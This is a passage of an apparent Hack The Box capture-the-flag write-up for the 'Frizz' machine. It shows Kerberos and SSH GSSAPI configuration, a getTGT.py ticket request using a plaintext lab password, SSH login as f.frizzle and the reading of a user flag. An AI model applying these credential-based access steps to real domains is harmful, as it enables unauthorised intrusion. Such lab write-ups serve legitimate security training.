Because the WinRM port isn't open, let's use SSH with Kerberos authentication.

## Kerberos SSH

Add the domain information to the `/etc/krb5.conf`.

```bash
[libdefaults]
        default_realm = FRIZZ.HTB
...
[realms]
...
        FRIZZ.HTB = {
                kdc = frizzdc.frizz.htb
                admin_server = frizzdc.frizz.htb
        }
...
[domain_realm]
        frizz.htb = FRIZZ.HTB
        .frizz.htb = FRIZZ.HTB
...
```

Add the following options to `~/.ssh/config` :

```bash
GSSAPIAuthentication yes
GSSAPIDelegateCredentials yes
```

Get a ticket and authenticate.

```bash
# Adjust your time to the domain
sudo ntpdate frizz.htb

# Get a ticket
getTGT.py frizz.htb/f.frizzle:Jenni_Luvs_Magic23 -dc-ip 10.10.11.60

# Export the ticket and auth
export KRB5CCNAME=$(realpath f.frizzle.ccache)
ssh f.frizzle@frizz.htb
```

# Shell as f.frizzle

## User flag

```powershell
PS C:\Users\f.frizzle> cat Desktop/user.txt
deadbeefecfe4d36283a8c8dc60ffake
```

## Enumeration
